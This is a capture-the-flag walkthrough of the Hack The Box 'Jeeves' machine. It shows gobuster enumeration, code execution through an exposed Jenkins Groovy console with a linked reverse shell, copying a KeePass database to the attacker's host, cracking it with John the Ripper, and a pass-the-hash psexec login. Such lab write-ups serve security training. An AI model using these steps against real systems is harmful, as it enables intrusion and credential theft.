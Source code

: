# Enumeration:
![nmap_scan](images/jeeves/nmap_scan.png) </br> </br>
**Initial Shell:** </br>
Navigating to the webserver we get this: </br>
![website_main_page](images/jeeves/website_main_page.png) </br>
When trying to submit anything, we get this: </br>
![website_error_message](images/jeeves/website_error_message.png) </br>
I tried running a fuzzing scan using gobuster, but I didn't find anything. </br>
I then navigated to the page on port 50000, and saw an error message: </br>
![http_error_msg](images/jeeves/http_error_msg.png) </br>
Tried running a fuzzing scan with gobuster again: </br>
```bash
root@kali# gobuster -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.63:50000/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Extensions   : .txt,.php,.html
=====================================================
/askjeeves (Status: 302)
```
</br>

Browsing to the ```askjeeves``` directory, I saw this page: </br>
![askjenkins_mainpage](images/jeeves/askjenkins_mainpage.png) </br> </br>
Browsing through the system, I found a way to execute arbitrary code on the webserver: </br>
I went to the ```manage jenkins``` tab, and saw this: </br>
![manage_jenkins](images/jeeves/manage_jenkins.png) </br>
This is a groovy script console, to exploit it I used a groovy reverse shell I found on [GitHub](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) </br>
Opened a netcat listener on another terminal, and it worked. </br> </br>
**Proof Of Screenshot:** </br>
![initial_shell](images/jeeves/initial_shell.png) </br> </br>
# Privilege Escalation: 
</br>
I solved it in two ways, one way is by exploiting ```Juicy Potato``` and the second way is enumerating and
finding ```kohsuke``` user credentials in the keypass password manager. </br>
I will show the second way since I believe that was the intentional way to solve this machine. </br>
After getting an initial shell , I did a bit of enumeration on ```kohsuke``` user directories (The user I got
access to). I found this file in the Documents directory: </br>
![ceh_file](images/jeeves/ceh_file.png) </br>
A ```KDBX``` file is a password manager for Windows. It stores an encrypted database of passwords that can be
viewed only using a master password set by the user. </br>
I copied the file to my Kali Machine with this command: ```copy CEH.kdbx \\10.10.14.21\kali``` </br>
I used ```keepass2john``` to convert it into a hash that we could crack later: </br>
![keepass2john](images/jeeves/keepass2john.png) </br>
I saved it into a file called hash, and cracked it using john the ripper: </br>
```john hash --wordlist=/usr/share/wordlists/rockyou.txt``` </br>
This is the result I got: </br>
![hash_crack](images/jeeves/hash_crack.png) </br>
I Installed the password manager keepassx to open the file: ```sudo apt-get install keepassx``` </br>
Opened the file: </br>
```Database -> Open database -> CEH.kdbx -> Enter moonshine1 as the password.``` </br>
![keepassx_file_opened](images/jeeves/keepassx_file_opened.png) </br>
The only password that stood out was the first one (Backup stuff), it contained a hash that looked like a NTLM hash: </br>
```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` </br>
I tried using 'pass the hash' and log in as an administrator with psexec: </br>
```psexec.py Administrator@10.10.10.63 -hashes``` </br>
```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` </br> </br>
**Proof Of Screenshot:** </br>
![privesc_shell](images/jeeves/privesc_shell.png)